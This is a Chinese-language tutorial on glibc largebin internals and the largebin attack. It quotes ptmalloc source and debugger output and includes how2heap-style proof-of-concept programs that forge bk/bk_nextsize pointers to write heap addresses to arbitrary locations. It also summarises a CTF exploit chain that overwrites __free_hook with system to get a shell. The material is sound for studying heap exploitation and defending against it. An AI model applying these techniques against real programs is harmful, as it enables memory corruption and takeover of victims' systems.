


# Largebin Attack

### 0x1 Largebin 管理机制(多关注x64)

首先判定一个chunk是否是smallbin或是Largebin的宏定义：

小于`MIN_LARGE_SIZE`的就是smallbin

```c
#define in_smallbin_range(sz)  
  ((unsigned long) (sz) < (unsigned long) MIN_LARGE_SIZE)

#define NSMALLBINS         64
#define SMALLBIN_WIDTH    MALLOC_ALIGNMENT
#define SMALLBIN_CORRECTION (MALLOC_ALIGNMENT > 2 * SIZE_SZ)
#define MIN_LARGE_SIZE    ((NSMALLBINS - SMALLBIN_CORRECTION) * SMALLBIN_WIDTH)
```

因此在64位的系统里面大于`MIN_LARGE_SIZE`为`64*0x10`即`0x400`的chunk为largebin，而32位系统中大于`MIN_LARGE_SIZE`为`64*0x8`即`0x200`的chunk位largebin。

Largebin中每个bin中的chunk并不是单一的大小，而是一个范围：

```c
#define largebin_index_64(sz)                                                
  (((((unsigned long) (sz)) >> 6) <= 48) ?  48 + (((unsigned long) (sz)) >> 6) :
   ((((unsigned long) (sz)) >> 9) <= 20) ?  91 + (((unsigned long) (sz)) >> 9) :
   ((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :
   ((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :
   ((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :
   126)
```

可以看到大小为`0x400`对应的chunk其对应的index为`(0x400>>6)+48`即64，而`index`为`64`对应的范围是`[0x400, 0x400+1>>6)`即`[0x400, 0x440)`，在这个级别`index`中，`size`的范围为`0x40(1<<6)`。

这样就用到了之前一直忽略的两个变量：`bk_nextsize`，`fd_nextsize`。

```c
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/

struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

**大小对应相同index中的堆块**，其在链表中的排序方式为：

1. 堆块从大到小排序。

2. 对于相同大小的堆块，最先释放到largebin的chunk会成为‘堆头’，其`fd_nextsize`与`bk_nextsize`会被赋值，其余相同的堆块释放后都会插入到该堆头结点的下一个结点，通过`fd`与`bk`链接，形成了先释放的在链表后面的排序方式（这里指的是其余chunk，这些chunk的存放类似于FIFO），且其`fd_nextsize`与`bk_nextsize`都为0。

   做个实验：

   ```c
   #include<stdio.h>
   
   int main()
   {
       char *gap;
   
       char *ptr0=malloc(0x400-0x10); //A
       gap=malloc(0x10);
       char *ptr1=malloc(0x400-0x10); //B
       gap=malloc(0x10);
       char *ptr2=malloc(0x400-0x10); //C
       gap=malloc(0x10);
       char *ptr3=malloc(0x400-0x10); //D
       gap=malloc(0x10);
   
   
       free(ptr3);  	//D
       free(ptr2);  	//C
       free(ptr1);  	//B
       free(ptr0); 	//A
   
       malloc(0x440); //trigger that sort largebin from unsorted bin to largebins
   
       return 0;
   }
   
   chunkA:	0x602000
   chunkB: 0x602420
   chunkC: 0x602840
   chunkD: 0x602c60
   ```

   ```c
   unsorted bin
   all: 0x602000 —▸ 0x602420 —▸ 0x602840 —▸ 0x602c60 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— ...
   ```

   ```c
   large bin
   0x400: 0x602c60 —▸ 0x602000 —▸ 0x602420 —▸ 0x602840 —▸ 0x7ffff7dd1f68 (main_arena+1096)
     
   pwndbg> x/8gx 0x602c60
   0x602c60:	0x0000000000000000	0x0000000000000401
   0x602c70:	0x0000000000602000	0x00007ffff7dd1f68
   0x602c80:	0x0000000000602c60	0x0000000000602c60
   
   pwndbg> x/8gx 0x602000
   0x602000:	0x0000000000000000	0x0000000000000401
   0x602010:	0x0000000000602420	0x0000000000602c60
   0x602020:	0x0000000000000000	0x0000000000000000
     
   pwndbg> x/8gx 0x602420
   0x602420:	0x0000000000000000	0x0000000000000401
   0x602430:	0x0000000000602840	0x0000000000602000
   0x602440:	0x0000000000000000	0x0000000000000000
     
   pwndbg> x/8gx 0x602840
   0x602840:	0x0000000000000000	0x0000000000000401
   0x602850:	0x00007ffff7dd1f68	0x0000000000602420
   0x602860:	0x0000000000000000	0x0000000000000000
     
   pwndbg> x/8gx 0x7ffff7dd1f68
   0x7ffff7dd1f68 <main_arena+1096>:	0x00007ffff7dd1f58	0x00007ffff7dd1f58
   0x7ffff7dd1f78 <main_arena+1112>:	0x0000000000602c60	0x0000000000602840
   0x7ffff7dd1f88 <main_arena+1128>:	0x00007ffff7dd1f78	0x00007ffff7dd1f78
   ```

   所以大致是这样：

   

   

**大小不同index中的堆块**，其在链表中的排序方式为：

1. 堆头`fd_nextsize`指向比它小的堆头，`bk_nextsize`指向比它大的堆头，相同大小的堆块则由堆头进行链接，其`fd_nextsize`和`bk_nextsize`为0。

2. `bk`和`fd`指针与其他bin类似（只能说类似，还是有很多不同的）。

3. 做个实验：

   ```c
   #include<stdio.h>
   
   int main()
   {
       char *gap;
   
       char *ptr0=malloc(0x400-0x10); //A
       gap=malloc(0x10);
       char *ptr1=malloc(0x400-0x10); //B
       gap=malloc(0x10);
       char *ptr2=malloc(0x410-0x10); //C
       gap=malloc(0x10);
       char *ptr3=malloc(0x410-0x10); //D
       gap=malloc(0x10);
   
   
       free(ptr3);  	//D
       free(ptr2);  	//C
       free(ptr1);  	//B
       free(ptr0); 	//A
   
       malloc(0x440); //trigger that sort largebin from unsorted bin to largebins
   
       return 0;
   }
   chunkA: 0x602000
   chunkB: 0x602420
   chunkC: 0x602840
   chunkD: 0x602c70
   ```

   ```c
   unsorted bin
   all: 0x602000 —▸ 0x602420 —▸ 0x602840 —▸ 0x602c70 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— ...
   
   large bin
   0x400: 0x602c70 —▸ 0x602840 —▸ 0x602420 —▸ 0x602000 —▸ 0x7ffff7dd1f68 (main_arena+1096) ◂— ...
     
   pwndbg> x/12gx 0x602c70
   0x602c70:       0x0000000000000000      0x0000000000000411
   0x602c80:       0x0000000000602840      0x00007ffff7dd1f68
   0x602c90:       0x0000000000602420      0x0000000000602420
   
   pwndbg> x/12gx 0x602840
   0x602840:       0x0000000000000000      0x0000000000000411
   0x602850:       0x0000000000602420      0x0000000000602c70
   0x602860:       0x0000000000000000      0x0000000000000000
   
   pwndbg> x/12gx 0x602420
   0x602420:       0x0000000000000000      0x0000000000000401
   0x602430:       0x0000000000602000      0x0000000000602840
   0x602440:       0x0000000000602c70      0x0000000000602c70
     
   pwndbg> x/12gx 0x602000
   0x602000:       0x0000000000000000      0x0000000000000401
   0x602010:       0x00007ffff7dd1f68      0x0000000000602420
   0x602020:       0x0000000000000000      0x0000000000000000
   ```

   

可以看到设置`fd_nextsize`与`bk_nextsize`的作用：由于largebin中存在不同大小的堆块，通过堆头的`fd_nextsize`与`bk_nextsize`字段，如果想要申请特定堆块，可以通过快速的遍历比当前堆块大或小的堆块，以增加查找速度，实现性能的提升。

**如何实现将largebin chunk从unsorted bin中取下来放入到largebin中的：**

```c
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))			      \
             - offsetof (struct malloc_chunk, fd))

/* place chunk in bin */

          if (in_smallbin_range (size))
            {
              ...  // chunk为smallbin，放入到smallbin中
            }
          else
            {
              victim_index = largebin_index (size);//第一步，获取当前要插入的chunk对应的index
              bck = bin_at (av, victim_index); //当前bin
              fwd = bck->fd;                   //当前index中最大的chunk

              /* maintain large bins in sorted order */
              if (fwd != bck)
                { // 该chunk对应的largebin index中不为空
                  /* Or with inuse bit to speed comparisons */
                  size |= PREV_INUSE;
                  /* if smaller than smallest, bypass loop below */
                  assert ((bck->bk->size & NON_MAIN_ARENA) == 0);
                  if ((unsigned long) (size) < (unsigned long) (bck->bk->size)) //第三步，如果要插入的chunk的size小于当前index中最小chunk的大小，则直接插入到最后面。
                    {
                      fwd = bck;
                      bck = bck->bk;

                      victim->fd_nextsize = fwd->fd;
                      victim->bk_nextsize = fwd->fd->bk_nextsize;
                      fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    }
                  else
                    {
                      assert ((fwd->size & NON_MAIN_ARENA) == 0);
                      while ((unsigned long) size < fwd->size) //第四步，如果插入的chunk不为最小，则通过`fd_nextsize`从大到小遍历chunk，找到小于等于要插入chunk的位置
                        {
                          fwd = fwd->fd_nextsize;
                          assert ((fwd->size & NON_MAIN_ARENA) == 0);
                        }

                      if ((unsigned long) size == (unsigned long) fwd->size)
                        /* Always insert in the second position.  */
                        fwd = fwd->fd; //第五步，如果存在堆头，则插入到堆头的下一个节点
                      else
                        { //第六步，否则这个chunk将会成为堆头，`bk_nextsize`和`fd_nextsize`将被置位
                          victim->fd_nextsize = fwd;
                          victim->bk_nextsize = fwd->bk_nextsize;
                          fwd->bk_nextsize = victim;
                          victim->bk_nextsize->fd_nextsize = victim;
                        }
                      bck = fwd->bk;
                    }
                }
              else   //第二步，chunk对应的largebin index中为空
                victim->fd_nextsize = victim->bk_nextsize = victim;
            }

          mark_bin (av, victim_index);
          //设置fd与bk完成插入
          victim->bk = bck; 
          victim->fd = fwd;
          fwd->bk = victim;
          bck->fd = victim;
          ...
        }
```

总结：

1. 找到当前要插入的chunk对应的largebin的index，并定位该index中的最小的chunk`bck`和最大的chunk`fwd`。
2. 如果`fwd`等于`bck`，表明当前链表为空，则直接将该chunk插入，并设置该chunk为该大小堆块的堆头，将`bk_nextsize`和`fd_nextsize`赋值为它本身。
3. 如果`fwd`不等于`bck`，表明当前链表已经存在chunk，要做的就是找到当前chunk对应的位置将其插入。
4. 首先判断其大小是否小于最小chunk的size，如果小于则说明该chunk为当前链表中最小的chunk，即插入位置在链表末尾，无需遍历链表，直接插入到链表的末尾，且该chunk没有对应的堆头，设置该chunk为相应堆大小堆的堆头，将`bk_nextsize`指向比它大的堆头，`fd_nextsize`指向双链表的第一个节点即最大的堆头。
5. 如果当前chunk的size不是最小的chunk，则从双链表的第一个节点即最大的chunk的堆头开始遍历，通过`fd_nextsize`进行遍历，由于`fd_nextsize`指向的是比当前堆头小的堆头，因此可以加快遍历速度。直到找到小于等于要插入的chunk的size。
6. 如果找到的chunk的size等于要插入chunk的size，则说明当前要插入的chunk的size已经存在堆头，那么只需将该chunk插入到堆头的下一个节点。
7. 如果找到的chunk的size小于当前要插入chunk的size，则说明当前插入的chunk不存在堆头，因此该chunk会成为堆头插入到该位置，设置`fd_nextsize`与`bk_nextsize`。

**largebin是如何被申请出来的。**

```c
#define first(b)     ((b)->fd)
#define last(b)      ((b)->bk)
/*
         If a large request, scan through the chunks of current bin in
         sorted order to find smallest that fits.  Use the skip list for this.
       */
      if (!in_smallbin_range (nb))
        {
          bin = bin_at (av, idx); //找到申请的size对应的largebin链表

          /* skip scan if empty or largest chunk is too small */
          if ((victim = first (bin)) != bin &&
              (unsigned long) (victim->size) >= (unsigned long) (nb)) //第一步，判断链表的第一个结点，即最大的chunk是否大于要申请的size
            {
              victim = victim->bk_nextsize; 
              while (((unsigned long) (size = chunksize (victim)) <
                      (unsigned long) (nb))) //第二步，从最小的chunk开始，反向遍历 chunk size链表，直到找到第一个大于等于所需chunk大小的chunk退出循环
                victim = victim->bk_nextsize; 

              /* Avoid removing the first entry for a size so that the skip
                 list does not have to be rerouted.  */
              if (victim != last (bin) && victim->size == victim->fd->size) //第三步，申请的chunk对应的chunk存在多个结点，则申请相应堆头的下个结点，不申请堆头。
                victim = victim->fd;

              remainder_size = size - nb;
              unlink (av, victim, bck, fwd); //第四步，largebin unlink 操作

              /* Exhaust */
              if (remainder_size < MINSIZE) //第五步，如果剩余的空间小于MINSIZE，则将该空间直接给用户
                {
                  set_inuse_bit_at_offset (victim, size);
                  if (av != &main_arena)
                    victim->size |= NON_MAIN_ARENA;
                }
              /* Split */
              else
                {
                  remainder = chunk_at_offset (victim, nb); //第六步，如果当前剩余空间还可以构成chunk，则将剩余的空间放入到unsorted bin中。
                  /* We cannot assume the unsorted list is empty and therefore
                     have to perform a complete insert here.  */
                  bck = unsorted_chunks (av);
                  fwd = bck->fd;
      if (__glibc_unlikely (fwd->bk != bck))
                    {
                      errstr = "malloc(): corrupted unsorted chunks";
                      goto errout;
                    }
                  remainder->bk = bck;
                  remainder->fd = fwd;
                  bck->fd = remainder;
                  fwd->bk = remainder;
                  if (!in_smallbin_range (remainder_size))
                    {
                      remainder->fd_nextsize = NULL;
                      remainder->bk_nextsize = NULL;
                    }
                  set_head (victim, nb | PREV_INUSE |
                            (av != &main_arena ? NON_MAIN_ARENA : 0));
                  set_head (remainder, remainder_size | PREV_INUSE);
                  set_foot (remainder, remainder_size);
                }
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }
        }
```

总结一下：

1. 找到当前要申请的空间对应的largebin链表，**判断**第一个结点即最大结点的大小是否大于要申请的空间，如果小于则说明largebin中没有合适的堆块，需采用其他分配方式。
2. 如果当前largebin中存在合适的堆块，则从最小堆块开始，通过`bk_nextsize`反向遍历链表，找到大于等于当前申请空间的结点。
3. 为减少操作，判断找到的相应结点（堆头）的下个结点是否是相同大小的堆块，如果是的话，将目标设置为该堆头的第二个结点，以此减少将`fd_nextsize`与`bk_nextsize`赋值的操作。
4. 调用`unlink`将目标largebin chunk从双链表中取下。
5. 判断剩余空间是否小于MINSIZE，如果小于直接返回给用户。
6. 则将剩余的空间构成新的chunk放入到unsorted bin中。

**再看下`unlink`的源码：**

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) 
{                                            
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  
    FD = P->fd;                                      
    BK = P->bk;                                      
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))              
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {                                      
        FD->bk = BK;                                  
        BK->fd = FD;                                  
        if (!in_smallbin_range (P->size)                      
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {              
        if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)          
        || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    
          malloc_printerr (check_action,                      
                   "corrupted double-linked list (not small)",    
                   P, AV);                          
            if (FD->fd_nextsize == NULL) {                      
                if (P->fd_nextsize == P)                      
                  FD->fd_nextsize = FD->bk_nextsize = FD;              
                else {                                  
                    FD->fd_nextsize = P->fd_nextsize;                  
                    FD->bk_nextsize = P->bk_nextsize;                  
                    P->fd_nextsize->bk_nextsize = FD;                  
                    P->bk_nextsize->fd_nextsize = FD;                  
                  }                                  
              } else {                                  
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;              
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;              
              }                                      
          }                                      
      }                                          
}
```

有这么几个检查：

1. `__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0)`

   和相邻的下一chunk的`pre_size`段比较。

2. `__builtin_expect (FD->bk != P || BK->fd != P, 0)`

   正常的再bin里的前后chunk检查

3. `(__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)|| `

    `__builtin_expect (P->bk_nextsize->fd_nextsize != P, 0)) `

   这里多加了对`fd_nextsize`和`bk_nextsize`的检查。

### 0x2 largebin attack

#### 0x20 前提

伪造largebin的`bk_nextsize`可以申请出非预期的内存，但是**需要在非预期的内存中构造好数据以绕过基本的size检查以及unlink检查。**

利用largebin的插入过程可以往任意的两个地址写堆地址，结合unsorted bin attack形成的house of storm可以实现任意可写地址的申请，威力更是强大。**无检查。**

#### 0x21 申请largebin的过程中

申请largebin的过程中，伪造largebin的`bk_nextsize`，实现非预期内存申请。

##### 原理分析

此利用方式是在申请largebin的过程中出现的。回到申请largebin的源码中去看，它先判断当前双链表中存在满足申请需求的堆块（判断第一个堆块的大小），然后通过`bk_nextsize`反向遍历双链表找到第一个大于申请需求的堆块，申请该堆头对应的堆块。

```c
if ((victim = first (bin)) != bin &&
              (unsigned long) (victim->size) >= (unsigned long) (nb)) //判断链表的第一个结点，即最大的chunk是否大于要申请的size
            {
              victim = victim->bk_nextsize; 
              while (((unsigned long) (size = chunksize (victim)) <
                      (unsigned long) (nb))) //从最小的chunk开始，反向遍历 chunk size链表，直到找到第一个大于等于所需chunk大小的chunk退出循环
                victim = victim->bk_nextsize;  //漏洞点，伪造bk_nextsize

              if (victim != last (bin) && victim->size == victim->fd->size) //申请的chunk对应的chunk存在多个结点，则申请相应堆头的下个结点，不申请堆头。
                victim = victim->fd;

              remainder_size = size - nb;
              unlink (av, victim, bck, fwd); //largebin unlink 操作

            ... 
            return p;
```

如果能够伪造某个堆头结点中的`bk_nextsize`，将其指向非预期的内存地址，构造好数据使得非预期内存地址在通过unlink的检查之后，会将该空间返回给用户，最终使得可以申请出非预期的内存。最常见的就是用它来构造overlap chunk。

至于绕过`unlink`的检查，我认为最好的方式就是伪造的内存空间将`fd`与`bk`按照smallbin`unlink`的利用方式设置，而将`bk_nextsize`和`fd_nextsize`设置成0，这样就不会对这两个字段进行操作了。

##### 典型的应用场景

存在四个堆ABCD，largebin中存在链表A->B，其中A为`0x420`，B为`0x400`，C为`0x410`，C未释放。

将B的`bk_nextsize`伪造指向C，同时将C的`fd`与`bk`构造好，将C的`fd_nextsize`与`bk_nextsize`赋值为0，当再次申请`0x410`大小的内存E时，遍历`B->bk_nextsize`会指向C，且C的大小满足需求，因此会调用unlink将C从双链表取下，因此申请出来的堆块E的地址会为C的地址，即E和C为同一内存块，实现overlap chunk的构造。

##### lctf2017—2ze4u

**漏洞**是UAF漏洞，即在删除堆块后并没有将存储指针的全局变量清空，还能够重复的编辑，如何使用这一点拿到shell就是这道题的考点。

首先是泄露堆地址，程序开启了PIE，在输出的时候，输出的位置是从分配堆块的0x18的位置开始的，而正常堆块的`fd`与`bk`俩个指针在前0x10字节，因此无法通过常规的泄露`fd`与`bk`来得到地址，此时就想要了前面提到过的`fd_nextsize`和`bk_nextsize`俩个字段。构造俩个large bin chunk，大小在同一个bins中，将其释放后，此时俩个chunk会被释放到unsorted bin中，再申请一个大小大于这俩个chunk的块，此时这俩个chunk会被放到相应的large bin中，同时`fd_nextsize`与`bk_nextsize`会被赋值，指向彼此。因此利用UAF输出即可得到堆块地址。

接着是泄露libc地址，如何泄露libc地址就需要使用largebin attack的姿势构造overlap chunk来进行泄露与利用，利用UAF修改largebin中的`bk_nextsize`指向伪造的堆的地址，同时将伪造的堆的地址`fd`与`bk`赋值，将`fd_nextsize`与`bk_nextsize`清0以绕过`unlink`，最终将伪造的堆块申请出来。使得伪造的largebin中包含smallbin，释放两个同大小的smallbin，利用smallbin的申请来绕过输入0的截断，最终泄露出libc地址。

最终的利用则是利用`fastbin attack`将`top chunk`指向`__free_hook-0xb58`，然后修改`__free_hook`为system地址，再次触发`free`拿到shell。

[很详细的WP](https://bbs.pediy.com/thread-225453.htm)

[很详细的WP](https://github.com/LCTF/LCTF2017/blob/master/src/pwn/2ez4u/2ez4u_exp.py)

#### 0x22 插入到largebin中

##### 原理分析

**前提**是：Largebin中的`bk_nextsize`或者`bk`指针可控。

相关源代码：

```c
 	...
  //将largebin从unsorted bin中取下
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);

	[...]

              else	//这个chunk将会成为堆头，`bk_nextsize`和`fd_nextsize`将被置位
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;//由于fwd->bk_nextsize可控，因此victim->bk_nextsize可控
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;//victim->bk_nextsize可控，因此实现了往任意地址写victim的能力
              }
              bck = fwd->bk;//由于fwd->bk可控，因此bck可控

    [...]//修改fd和bk指针

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;//bck可控，因此实现了往任意地址写victim的能力

    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]
```

可实现两次往任意的地址写堆地址的能力，设任意地址为`evil_addr`，问题出现在当前的largebin插入为堆头的过程，在此过程中假设我们可控largebin中的`bk_nextsize`与`bk`。

一次是：控制`fwd->bk_nextsize`指向`evil_addr-0x20`。执行完`victim->bk_nextsize = fwd->bk_nextsize`后，`victim->bk_nextsize`也为`evil_addr-0x20`，接着执行`victim->bk_nextsize->fd_nextsize = victim`即实现了往`evil_addr-0x20->fd_nextsize`写victim，即往`evil_addr`写`victim`地址。关键两行代码如下：

```c
victim->bk_nextsize = fwd->bk_nextsize; //由于fwd->bk_nextsize可控，因此victim->bk_nextsize可控
...
victim->bk_nextsize->fd_nextsize = victim; //victim->bk_nextsize可控，因此实现了往任意地址写victim的能力
```

另一次是：控制`fwd->bk`指向`evil_addr-0x10`，执行完`bck = fwd->bk`后，`bck`为`evil_addr-0x10`，接着执行`bck->fd = victim`即往`evil_addr-0x10->fd`写victim，即往`evil_addr`写victim地址。关键两行代码如下：

```c
bck = fwd->bk; //由于fwd->bk可控，因此bck可控
...
bck->fd = victim; //bck可控，因此实现了往任意地址写victim的能力
```

这样利用伪造在largebin中的`bk_nextsize`与`bk`，我们获得了两次任意地址写堆地址的能力。至于往何处写，一个比较好的目标是写`global_max_fast`，使得可以将其覆盖成很大的值，具体如何利用可以参考[堆中global_max_fast相关利用](https://ray-cp.github.io/archivers/heap_global_max_fast_exploit)。

##### 实例分析

这里按照[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/large_bin_attack.c)来分析。

```c
/*

    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/

		[...]
		
    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]

 */

#include<stdio.h>
#include<stdlib.h>
 
int main()
{
    fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see glibc_build.sh for build instructions.\n");
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
           "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);
 
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
           " the third large chunk during the free()\n\n");
    malloc(0x20);
 
    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));

    malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
            " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
            ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
            " [ %p ]\n\n", (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
 
    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
            " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
            " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
            " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------

    malloc(0x90);
 
    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
            " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```

##### 

```shell
➜  glibc_2.26 git:(master) ✗ ./large_bin_attack
This technique only works with disabled tcache-option for glibc, see glibc_build.sh for build instructions.
This file demonstrates large bin attack by writing a large unsigned long value into stack
In practice, large bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the targets we want to rewrite on stack:
stack_var1 (0x7fffffffe4b0): 0
stack_var2 (0x7fffffffe4b8): 0

Now, we allocate the first large chunk on the heap at: 0x555555757000
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the first large chunk during the free()

Then, we allocate the second large chunk on the heap at: 0x555555757360
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the second large chunk during the free()

Finally, we allocate the third large chunk on the heap at: 0x5555557577a0
And allocate another fastbin chunk in order to avoid consolidating the top chunk with the third large chunk during the free()

We free the first and second large chunks now and they will be inserted in the unsorted bin: [ 0x555555757360 <--> 0x555555757000 ]

Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation, and reinsert the remaining of the freed first large chunk into the unsorted bin: [ 0x5555557570a0 ]

Now, we free the third large chunk and it will be inserted in the unsorted
bin: [ 0x5555557577a0 <--> 0x5555557570a0 ]

Now emulating a vulnerability that can overwrite the freed second large chunk's "size" as well as its "bk" and "bk_nextsize" pointers
Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk at the head of the large bin freelist. To overwrite the stack variables, we set "bk" to 16 bytes before stack_var1 and "bk_nextsize" to 32 bytes before stack_var2

Let's malloc again, so the freed third large chunk being inserted into the large bin freelist. During this time, targets should have already been rewritten:
stack_var1 (0x7fffffffe4b0): 0x5555557577a0
stack_var2 (0x7fffffffe4b8): 0x5555557577a0
```

##### 实例（相关house of storm）

[oneTab](https://www.one-tab.com/page/7yziPLr7RwKfJ97rdf4CdA)

### 0x3 glibc-2.29 large bin attack 原理

#### 0x30 前提

有一个UAF漏洞，可以控制large bin的`bk_nextsize`。

#### 0x31 原理分析

与[0x22](#0x22 插入到largebin中)类似。

```c
victim->bk_nextsize = fwd->fd->bk_nextsize; // one
victim->bk_nextsize->fd_nextsize = victim; // two，
```

#### 0x32 实例代码

```c
#include <stdio.h>
#include <stdlib.h>

size_t buf[0x10];

int main()
{
    size_t *ptr, *ptr2, *ptr3;
    setbuf(stdout, NULL);

    ptr = malloc(0x438);
    malloc(0x18);
    ptr2 = malloc(0x448);
    malloc(0x18);
    free(ptr);
    // put ptr into large bin
    malloc(0x600);
    free(ptr2);
    ptr[2] = 0;
    ptr[3] = (size_t)&buf[0];

    printf("buf[4]: 0x%lxn", buf[4]);
    ptr3 = malloc(0x68);
    printf("buf[4]: 0x%lxn", buf[4]);

    return 0;
}
```

```shell
buf[4]: 0x0
buf[4]: 0x560075a246b0
```

#### 0x33 实例

##### HITCON CTF 2019 PWN – one punch man


